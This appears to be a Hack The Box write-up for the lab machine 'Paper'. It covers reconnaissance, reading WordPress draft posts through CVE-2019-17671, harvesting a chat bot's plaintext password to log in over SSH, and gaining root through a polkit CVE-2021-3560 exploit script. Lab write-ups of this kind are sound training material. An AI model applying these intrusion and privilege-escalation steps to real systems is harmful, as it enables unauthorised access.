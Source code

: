 ```yaml
---
clayout: ctf
title: Paper
date: 2025-03-14
image: /ctf/hack-the-box/machines/paper/info-card.png
type: Hack The Box

ctf:
    - name: Paper
      link: https://app.hackthebox.com/machines/432
      thumbnail: /ctf/hack-the-box/machines/paper/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/432
          thumbnail: /ctf/hack-the-box/machines/paper/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running a Nmap scan to identify open ports and services on the target machine:

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|_  256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

The scan reveals three open ports:

- Port 22: SSH (OpenSSH 8.0)
- Port 80: HTTP (Apache httpd 2.4.37)
- Port 443: HTTPS (Apache httpd 2.4.37)

### Web Enumeration

Navigating to the target’s IP in a browser displays a default **Apache test page**.

![Cap - Apache test page](/ctf/hack-the-box/machines/paper/apache-test-page.png)

Port **443** serves the same page. Checking the HTTP response headers using `curl`:

```bash
$ curl -s -D - -o /dev/null http://10.10.11.143
HTTP/1.1 403 Forbidden
Date: Tue, 18 Mar 2025 06:38:44 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
...
```

The `X-Backend-Server` header reveals the internal hostname: `office.paper`.
We add this to `/etc/hosts`:

```bash
echo "10.10.11.143 office.paper" | sudo tee -a /etc/hosts
```

### Discovering WordPress

Visiting `http://office.paper/` reveals a Blunder Tiffin Inc. blog.

![Cap - Blunder Tiffin Inc. blog](/ctf/hack-the-box/machines/paper/blunder-tiffin-inc-blog.png)

Inspecting the comments, we find a user **Nick** mentioning a **secret draft page**.

![Cap - Nick's comment](/ctf/hack-the-box/machines/paper/nick-comment.png)

Using **Wappalyzer**, we identify the CMS as **WordPress 5.2.3**.

![Cap - Wappalyzer WordPress](/ctf/hack-the-box/machines/paper/wappalyzer.png)

This version is vulnerable to [CVE-2019-17671](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2/),
allowing unauthenticated users to view private/draft posts.

Appending `?static=1` to the URL reveals a **hidden draft post**.

![Cap - Draft post](/ctf/hack-the-box/machines/paper/draft-post.png)

It contains a **secret registration link** for an employee chat system:

```plaintext
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

We add `chat.office.paper` to `/etc/hosts`:

```bash
echo "10.10.11.143 chat.office.paper" | sudo tee -a /etc/hosts
```

Navigating to the URL presents a **Rocket.Chat registration form**.

![Cap - Chat registration form](/ctf/hack-the-box/machines/paper/chat-registration-form.png)

### Gaining Initial Access

After registering and logging in, we find messages in the **general** channel.

![Cap - Chat messages](/ctf/hack-the-box/machines/paper/chat-messages.png)

A **bot named Recyclops** is mentioned, capable of listing and reading files.

![Cap - Recyclops bot](/ctf/hack-the-box/machines/paper/recyclops-bot.png)

We find **Recyclops' environment file** in `/home/dwight/hubot/.env`:

```bash
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

Using these credentials, we attempt SSH login as **dwight**:

```bash
$ ssh dwight@10.10.11.143
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

We retrieve the **user flag**:

```bash
[dwight@paper ~]$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

### Enumeration

Running **LinPEAS**, we identify the **polkit package**:

```bash
[dwight@paper ~]$ rpm -q polkit
polkit-0.115-6.el8.x86_64
```

This version is vulnerable
to [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/tree/main), allowing privilege
escalation.

### Exploitation

We upload and execute an exploit script:

```bash
[dwight@paper ~]$ ./poc.sh

[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[+] Inserted Username secnigma  with UID 1005!
[!] It looks like the password insertion was succesful!
```

Switching to the new user and escalating privileges:

```bash
[dwight@paper ~]$ su - secnigma
Password:
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
```

We successfully escalate to root and retrieve the **root flag**:

```bash
[root@paper secnigma]# cat /root/root.txt
[ROOT_FLAG]
```

![Cap - pwned](/ctf/hack-the-box/machines/paper/pwned.png)
